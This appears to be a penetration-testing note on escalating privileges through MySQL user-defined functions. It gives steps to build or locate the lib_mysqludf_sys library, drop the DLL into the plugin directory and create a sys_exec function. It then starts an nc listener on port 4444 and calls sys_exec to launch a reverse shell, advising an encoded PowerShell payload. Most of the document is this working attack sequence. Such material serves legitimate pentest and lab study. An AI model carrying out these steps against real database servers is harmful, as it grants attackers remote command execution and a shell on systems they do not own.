

# Library - MySQL UDF

If the **mysql server is running as root** (or a different more privileged user) you can make it execute commands. For that, you need to use **user defined functions**. And to create a user defined you will need a **library** for the OS that is running mysql.

The malicious library to use can be found inside sqlmap and inside metasploit by doing **`locate "*lib_mysqludf_sys*"`**. The **`.so`** files are **linux** libraries and the **`.dll`** are the **Windows** ones, choose the one you need.



If the following steps do not work, check the link above!&#x20;

1. Let's grab the following code. \
   [https://gist.githubusercontent.com/kazkansouh/3476a8c8846472da06f980494ac2c457/raw/559eb0dc4f4d0d5d1fbf69e2965bda292f8511ff/mysql-udf-build.sh ](https://gist.githubusercontent.com/kazkansouh/3476a8c8846472da06f980494ac2c457/raw/559eb0dc4f4d0d5d1fbf69e2965bda292f8511ff/mysql-udf-build.sh)
2. Run the script. You will see a dll (lib\_mysqludf\_sys\_win\_64.dll) created in local directory.&#x20;

```bash
./mysql-udf-build.sh 64 win .
```

3. Connect to the Database



4. Wtih snap, run the following command.

```bash
sudo snap install dbeaver-ce 
```

5. Run dbeaver-ce and supply 'IP address' and a credential to connect.&#x20;
6. Check the plugin directory. Run the following SQL script.&#x20;

```
SHOW VARIABLES LIKE 'plugin_dir';
```

<figure><figcaption></figcaption></figure>

7. Check or/and create a directory to the plugin (C:\xampp\mysql\lib\plugin\\)&#x20;
8. Store lib\_mysqludf\_sys\_win\_64.dll there (C:\xampp\mysql\lib\plugin\lib\_mysqludf\_sys\_win\_64.dll)&#x20;
9. Run the following SQL query to create a function.&#x20;

```
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_win_64.dll';
```

10. Set up a listener.&#x20;

```
rlwrap nc -nlvp 4444
```

11. Run the following SQL query to run a reverse shell.&#x20;

```bash
select sys_exec('shell') # Use a powershell encrypted one
```

<figure><figcaption></figcaption></figure>

Connected. This time, this user has a SeImpersonatePrivilege.&#x20;

<figure><figcaption></figcaption></figure>
